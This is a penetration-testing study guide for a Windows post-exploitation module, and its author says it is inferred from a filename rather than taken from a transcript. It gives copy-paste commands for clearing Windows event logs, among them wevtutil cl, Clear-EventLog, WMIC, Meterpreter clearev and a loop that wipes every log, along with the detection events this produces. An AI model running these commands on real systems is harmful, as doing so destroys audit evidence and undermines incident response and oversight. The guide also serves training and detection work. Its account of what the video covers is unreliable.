# What the video covers (Introduction / big picture)
Note: No transcript was provided. The following is inferred from the filename and the Windows Post-Exploitation context typical in eJPT training.

This module demonstrates how to identify, export, and clear Windows event logs after gaining administrative or SYSTEM access on a target host, and what artifacts clearing generates. It compares built-in methods (wevtutil, PowerShell, WMIC, Event Viewer) and common post-exploitation tooling (e.g., Meterpreter’s clearev), along with OPSEC considerations and verification steps.

Only perform these actions in authorized lab/training environments. Clearing logs is inherently noisy and detectable, and it may violate policy or law if done without explicit authorization.

# Flow (ordered)
1. Confirm privileges
   - Ensure you are Administrator or SYSTEM; Security log clearing requires “Manage auditing and security log” (SeSecurityPrivilege).
2. Identify target logs
   - Common: Security, System, Application, and Microsoft-Windows-PowerShell/Operational.
3. Optional: Export logs before clearing
   - For forensics-friendly engagements or to avoid breaking workflows.
4. Clear selected logs using a chosen method
   - wevtutil (reliable for classic and modern logs)
   - PowerShell (Clear-EventLog for classic logs)
   - WMIC (legacy)
   - Meterpreter clearev (Application/System/Security)
   - Event Viewer GUI (manual)
5. Verify clearing
   - Query recent events to confirm size/entries; expect “log cleared” events.
6. Understand artifacts and detection
   - Clearing logs generates notable events (e.g., 1102, 104) and won’t remove externally forwarded/aggregated logs (SIEM/WEF).
7. OPSEC guidance
   - Target only necessary logs; know that clearing is conspicuous; prefer minimizing footprint over wiping.

# Tools highlighted
- Built-in Windows
  - wevtutil (list/export/clear/query logs)
  - PowerShell (Get-WinEvent, Clear-EventLog, Get-EventLog)
  - Event Viewer (eventvwr.msc)
  - WMIC (nteventlog class; legacy)
- Post-exploitation
  - Meterpreter (clearev)
- Sysinternals
  - PsExec (to obtain SYSTEM when needed)

# Typical command walkthrough (detailed, copy-paste friendly)
All commands assume you have Administrator (ideally SYSTEM) on the target. Use an elevated CMD or PowerShell. Quotes are important for logs with spaces or slashes.

Privilege check:
```cmd
whoami /groups | findstr /I "Administrators"
whoami /priv
net session  && echo Admin OK || echo Not admin
```

List logs (discover exact names):
```cmd
wevtutil el
```

Preview a few recent events (reverse chronological) from key logs:
```cmd
wevtutil qe Security /c:5 /f:text /rd:true
wevtutil qe System /c:5 /f:text /rd:true
wevtutil qe Application /c:5 /f:text /rd:true
wevtutil qe "Microsoft-Windows-PowerShell/Operational" /c:5 /f:text /rd:true
```

Optional: Export logs before clearing (creates .evtx backups):
```cmd
mkdir C:\Temp 2>nul
wevtutil epl Security C:\Temp\Security.evtx /ow:true
wevtutil epl System C:\Temp\System.evtx /ow:true
wevtutil epl Application C:\Temp\Application.evtx /ow:true
wevtutil epl "Microsoft-Windows-PowerShell/Operational" C:\Temp\PS-Operational.evtx /ow:true
```

Clear specific logs (precise, targeted):
```cmd
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

Clear classic logs via PowerShell (Application/System/Security):
```powershell
# Run in elevated PowerShell
Clear-EventLog -LogName Application, System, Security
```

Clear any log via wevtutil from PowerShell:
```powershell
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

Clear “all” logs (very noisy; strongly discouraged):
- CMD (interactive shell):
```cmd
for /f "tokens=*" %G in ('wevtutil.exe el') do wevtutil.exe cl "%G"
```
- CMD (batch file; note double %%):
```cmd
for /f "tokens=*" %%G in ('wevtutil.exe el') do wevtutil.exe cl "%%G"
```

WMIC (legacy; classic logs):
```cmd
wmic nteventlog get LogFileName
wmic nteventlog where LogFileName="Security" call ClearEventLog
wmic nteventlog where LogFileName="Application" call ClearEventLog
wmic nteventlog where LogFileName="System" call ClearEventLog
```

Meterpreter (clears Application/System/Security):
```text
meterpreter > getsystem
meterpreter > clearev
```

Verify clearing (expect a “log cleared” event to remain as the latest entry):
```cmd
wevtutil qe Security /c:3 /f:text /rd:true
wevtutil qe System /c:3 /f:text /rd:true
wevtutil qe Application /c:3 /f:text /rd:true
wevtutil qe "Microsoft-Windows-PowerShell/Operational" /c:3 /f:text /rd:true
```

Obtain SYSTEM via PsExec (if needed for stubborn logs):
```cmd
PsExec64.exe -accepteula -s -i cmd.exe
```

Event Viewer GUI (manual):
```cmd
eventvwr.msc
# Right-click a log (e.g., Security) -> Clear Log... -> optionally Save and Clear
```

# Practical tips
- Privileges:
  - Clearing Security requires SeSecurityPrivilege (Administrators typically have it). SYSTEM is most reliable.
- Artifacts and detections:
  - Event ID 1102 (Security): “The audit log was cleared.”
  - Event ID 104 (System, source: EventLog): “The log file was cleared.” (applies to any log cleared)
  - Older systems may show 517 for similar activity.
  - These events are strong signals; they cannot be removed without further noise and risk.
- Scope smartly:
  - Prefer targeted clearing (e.g., PowerShell Operational) over “clear all.”
  - Clearing does not affect logs already forwarded to SIEM/WEF.
- Tool behavior:
  - Clear-EventLog handles classic logs only (Application/System/Security). Use wevtutil for “Applications and Services Logs.”
  - WMIC is deprecated but often present; use wevtutil as primary.
- Don’t delete .evtx files:
  - Files live in C:\Windows\System32\winevt\Logs\ but deleting/tampering is risky, often blocked, and highly conspicuous.
- Verification:
  - Always query a few events after clearing; expect to see the “log cleared” event at/near the top.
- OPSEC:
  - Clearing is loud. Where possible, minimize footprint instead (e.g., avoid running PowerShell with logging enabled, reduce noisy actions). If you must clear, accept the detection trade-off.

# Minimal cheat sheet (one-screen flow)
```cmd
:: 1) Check admin/SYSTEM
whoami /priv
net session

:: 2) List logs and preview
wevtutil el
wevtutil qe Security /c:5 /f:text /rd:true

:: 3) Optional backup
mkdir C:\Temp 2>nul
wevtutil epl Security C:\Temp\Security.evtx /ow:true

:: 4) Clear key logs (targeted)
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil cl "Microsoft-Windows-PowerShell/Operational"

:: 5) Verify (expect 1102/104)
wevtutil qe Security /c:3 /f:text /rd:true
wevtutil qe System /c:3 /f:text /rd:true

:: (Alt) PowerShell classic logs
powershell -NoLogo -NoProfile -Command "Clear-EventLog -LogName Application, System, Security"

:: (Alt) Clear all (NOISY — not recommended)
for /f "tokens=*" %G in ('wevtutil el') do wevtutil cl "%G"
```

# Summary
In this Windows post-exploitation segment, you learn how to identify, export, and clear event logs using built-in tools (wevtutil, PowerShell, WMIC), GUI (Event Viewer), and post-exploitation tooling (Meterpreter). The key takeaways are: ensure admin/SYSTEM privileges, target only the necessary logs (Security/System/Application/PowerShell Operational), optionally export before clearing, verify results, and understand that clearing logs is highly detectable—expect Event IDs 1102 (Security) and 104 (System). Use these procedures only in authorized lab or engagement contexts and weigh the OPSEC trade-offs before clearing.
